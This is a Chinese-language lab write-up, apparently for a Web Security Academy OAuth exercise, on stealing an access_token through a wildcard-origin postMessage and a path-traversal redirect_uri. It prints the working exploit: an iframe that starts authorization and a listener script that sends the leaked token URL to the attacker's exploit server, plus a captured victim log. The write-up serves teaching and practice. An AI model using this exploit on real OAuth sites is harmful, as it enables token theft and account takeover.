 ### 功能分析

![image-20250513195419436](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513195419436.png)

1. 第一个包：在 OAuth 授权页面完成请求。

```
# 完成请求后直接返回一个包含 token 的响应。
https://0a6b006903a9c4b6806ebcc4007d0089.web-security-academy.net/oauth-callback#access_token=AesACvdpt6Dvw-qVx9rPUhsPRHfYm2Mm-_CxDGUr9W1&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

![image-20250513195545683](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513195545683.png)

2. 第二个包：跳转到返回的 URL。

![image-20250513195644959](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513195644959.png)

```js
// 现在 callback 接口部署在浏览器，具体功能如下：
// 1. 获取 url 中的 access_token
// 2. 使用 access_token 访问 Oauth 授权方
<script>
const urlSearchParams = new URLSearchParams(window.location.hash.substr(1));
const token = urlSearchParams.get('access_token');// 获取 access_token 
fetch('https://oauth-0ac1002903ccf0b1806406ee02dd0074.oauth-server.net/me', {
    method: 'GET',
    headers: {
        'Authorization': 'Bearer ' + token,// 先发送一个 get 请求提交 token
        'Content-Type': 'application/json'
    }
})
.then(r => r.json())
.then(j => 
    fetch('/authenticate', {// 后发送一个 post 请求
        method: 'POST',
        headers: {
            'Accept': 'application/json',
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            email: j.email,
            username: j.sub,
            token: token
        })
    }).then(r => document.location = '/'))
</script>


// 以上代码解析 url，将 token 提取出来，分别发送 get 请求和 post 请求。
```

OAuth 工作方式和上篇文章完全一样。

### 漏洞出现地方

每当访问一个文章，就会返回如下资源（一个提交评论框）：

![image-20250513200223943](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513200223943.png)

其存在 js 代码：

![image-20250513203832534](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513203832534.png)

其实就是一个表单，还有提交评论的 js 代码（代码不是通过表单直接提交，而是被 js 阻止后使用 js 提交）。

分析其 js 代码：

```js
// 页面加载完成后，向父窗口发送消息告知当前页面URL。       漏洞出现位置
parent.postMessage({type: 'onload', data: window.location.href}, '*')

/**
 * 处理表单提交事件，阻止默认提交行为并收集表单数据
 * @param {HTMLFormElement} form - 表单元素
 * @param {Event} ev - 事件对象
 */
function submitForm(form, ev) {
    // 阻止表单默认提交行为
    ev.preventDefault();
    
    // 获取表单数据
    const formData = new FormData(document.getElementById("comment-form"));
    
    // 从URL的hash参数中获取额外数据（格式如 #key1=value1&key2=value2）
    const hashParams = new URLSearchParams(window.location.hash.substr(1));
    
    // 合并表单数据和hash参数数据到一个对象
    const o = {};
    formData.forEach((v, k) => o[k] = v);
    hashParams.forEach((v, k) => o[k] = v);
    
    // 向父窗口发送包含表单和 hash 参数数据的消息
    parent.postMessage({type: 'oncomment', content: o}, '*');
    
    // 重置表单
    form.reset();
}
```

注意，每当访问 /post/comment/comment-form 这个资源，都会自动触发如上代码将 url 信息发送到父页面。

我们可以利用这串 js 代码将敏感数据带到攻击者服务器上。前提：

- 用户访问 /post/comment/comment-form 资源，并且 url 中包含敏感信息。
- /post/comment/comment-form 的父页面是攻击者服务器页面。

```js
1.OAuth 授权后存在重定向，而且重定向链接中存在 access_token 敏感信息。其规则是：redirect_uri + #access_token=...&...
2. 将 /post/comment/comment-form 作为 redirect_uri，那么返回的完整 url 是：web.com/post/comment/comment-form#access_token=...&...
3. 一旦用户重定向访问了这个 url，并执行了 js 代码，就会将带有 access_token 的 url 信息发给父页面。
4.通过 iframe 标签让攻击者服务器作为父页面。

// 将如下脚本部署在攻击者页面，发给用户即可。

// 这个 iframe 用于触发用户访问授权方，获取包含 accesstoken 的重定向链接。
<iframe src="https://oauth-0aa700360484745d80b35c4a026b0073.oauth-server.net/auth?client_id=zvy9p3ji2kws2k3zogzxo&redirect_uri=https://0a0000c3044874c580715e34009900a3.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>

// 用于接收子页面 /post/comment/comment-form 发过来的 url 信息，并发送给攻击者主页面以记录日志。
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

用户访问 /exploit 页面后：

1. 加载 iframe，并尝试进行 OAuth 授权。
2. OAuth 生成如下 url 给浏览器重定向：

```
https://0a0000c3044874c580715e34009900a3.web-security-academy.net/oauth-callback/../post/comment/comment-form#access_token=PGz_CkGh3N7LgycrL4VYkeUD2DZpW070sVMrtiA0sau&response_type=token&nonce=-1552239120&scope=openid%20profile%20email
```

3. 浏览器访问这个 url（comment-form 页面），触发如下代码：

```
// 页面加载完成后，向父窗口发送消息告知当前页面URL
parent.postMessage({type: 'onload', data: window.location.href}, '*')
```

4. 然后浏览器将 /exploit 作为父页面，将 url 信息发送到 /exploit 页面，/exploit 页面的 js 代码将 url 数据记录日志。

![image-20250513203538846](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513203538846.png)

```
GET /https%3A%2F%2F0a0000c3044874c580715e34009900a3.web-security-academy.net%2Fpost%2Fcomment%2Fcomment-form%23access_token%3DxBffI8ZQG9LM5o0Oa_8ibzcoGc5bfkpox5mXZ36cPE9%26expires_in%3D3600%26token_type%3DBearer%26scope%3Dopenid%2520profile%2520email HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```

![image-20250513203642300](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513203642300.png)

总体思路：

1. js 代码将 url 数据发给父页面。
2. 此网站内部是否可以将一些敏感信息拼接在此 url 上。
3. 是否可以将攻击者页面作为父页面。